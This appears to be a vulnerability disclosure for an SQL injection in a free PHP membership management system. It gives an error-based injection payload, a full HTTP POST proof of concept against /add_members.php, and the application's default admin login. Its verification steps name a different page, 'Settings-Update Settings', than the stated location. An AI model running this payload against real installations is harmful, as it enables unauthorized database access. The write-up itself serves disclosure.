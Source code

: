# SQLi-3

# Vulnerability Description

The membership-management-system in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: xiaomingLi
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /add_members.php

# Vulnerability Verification

[+] Payload:

```http
'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/membership/add_members.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 1234
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHmBUIqcAAkDIuO75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/membership/add_members.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vh18091oo0f1meordh3s83hkfp
Connection: close

------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="fullname"

aa aaa'and/**/extractvalue(1,concat(char(126),user()))and'
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="dob"

2024-02-22
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="contactNumber"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="email"

88888888@qq.com
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="address"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="country"

aa
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="postcode"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="occupation"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="membershipType"

1
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="photo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryHmBUIqcAAkDIuO75--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;

3.The vulnerability is located at the "Settings-Update Settings" function, you should inserts Payload when you Update any  information，as shown in the following figure：

​
![image-20240227214748-krnwpnj](https://github.com/0x404Ming/CVE_Hunter/assets/157251855/59863a2a-8c53-4f1d-8cd5-de7e3d2f5359)

‍![image-20240227214843-uo77yvq](https://github.com/0x404Ming/CVE_Hunter/assets/157251855/39200477-8e20-405e-8919-83c81df0bece)

